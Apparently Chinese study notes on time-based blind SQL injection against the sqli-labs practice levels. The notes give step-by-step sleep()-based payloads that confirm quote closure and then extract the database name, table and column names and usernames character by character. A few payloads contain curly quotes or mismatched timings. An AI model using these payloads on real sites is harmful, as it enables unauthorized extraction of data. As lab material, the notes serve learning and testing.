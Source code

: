 

### 时间盲注

页面始终只有一种，不显示错误状态，此时需要结合sleep()函数，通过时间延迟来判断是否出错。

常用if(e1,e2,e3)即e1为真则返回e2，否则返回e3

此时如何判断闭合，即使用

```
?id=1' and if(1=2,1,sleep(2)) --+
若构成闭合，则执行闭合后面的代码，而闭合内部的代码不执行，此时若sleep3秒则闭合为单引号
```

之后判断数据库名长度

```
?id=1' and if(length(database())>8,sleep(2),0) --+
```

之后判断数据库名，逐个尝试字符

```
?id=1' and if(ascii(substr(database(),1,1))=115,sleep(2),0) --+
```

之后判断表名，逐个尝试字符

```
?id=1’ and if(ascii(substr((select table_name from information_schema.tables where table_schema=‘security’ limit 0,1),1,1))=101,sleep(2),0) --+
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),2,1))=109,sleep(2),0) --+
```

之后判断列名，逐个尝试字符

```
?id=1’ and if(ascii(substr((select column_name from information_schema.columns where table_name=‘users’ and table_schema=database() limit 0,1),1,1))=105,sleep(2),1)–+
```

最后获取数据，逐个尝试字符

```
?id=1' and if(ascii(substr((select username from users limit 0,1),1,1))=68,sleep(2),1)--+
```





### 后续题目总结

Less-1  字符型单引号  GET

Less-2  整型Intiger based  GET

Less-3  字符型单引号和括号  GET

Less-4  字符型双引号和括号  GET

Less-5  Double字符型单引号  GET
